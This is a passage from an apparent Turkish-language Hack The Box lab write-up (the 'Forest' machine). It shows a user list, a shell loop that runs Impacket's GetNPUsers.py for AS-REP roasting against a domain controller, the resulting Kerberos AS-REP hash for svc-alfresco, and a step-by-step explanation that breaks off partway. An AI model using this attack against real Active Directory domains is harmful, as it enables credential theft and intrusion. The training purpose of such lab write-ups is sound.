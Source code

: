 ```
root@kali# cat users
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
```


Artık Impacket aracı GetNPUsers.py'yi kullanarak her kullanıcı için bir hash almaya çalışabilirim ve svc-alfresco hesabı için bir tane buldum:

```
root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:c213afe360b7bcbf08a522dcb423566c$d849f59924ba2b5402b66ee1ef332c2c827c6a5f972c21ff329d7c3f084c8bc30b3f9a72ec9db43cba7fc47acf0b8e14c173b9ce692784b47ae494a4174851ae3fcbff6f839c833d3740b0e349f586cdb2a3273226d183f2d8c5586c25ad350617213ed0a61df199b0d84256f953f5cfff19874beb2cd0b3acfa837b1f33d0a1fc162969ba335d1870b33eea88b510bbab97ab3fec9013e33e4b13ed5c7f743e8e74eb3159a6c4cd967f2f5c6dd30ec590f63d9cc354598ec082c02fd0531fafcaaa5226cbf57bfe70d744fb543486ac2d60b05b7db29f482355a98aa65dff2f
```

---

Bu kod, bir Python scripti olan **GetNPUsers.py** kullanarak **AS-REP Roasting** saldırısını gerçekleştirmek için kullanıcıların **Kerberos ön kimlik doğrulama gereksinimi** olup olmadığını kontrol eder. İşte kodun yaptığı işlemler madde madde:

1. **`for user in $(cat users)`**
    
    - **`users`** dosyasındaki her bir kullanıcı adını tek tek alır ve döngüye sokar.
    - Dosyanın her satırında bir kullanıcı adı bulunur.
2. **`GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}`**
    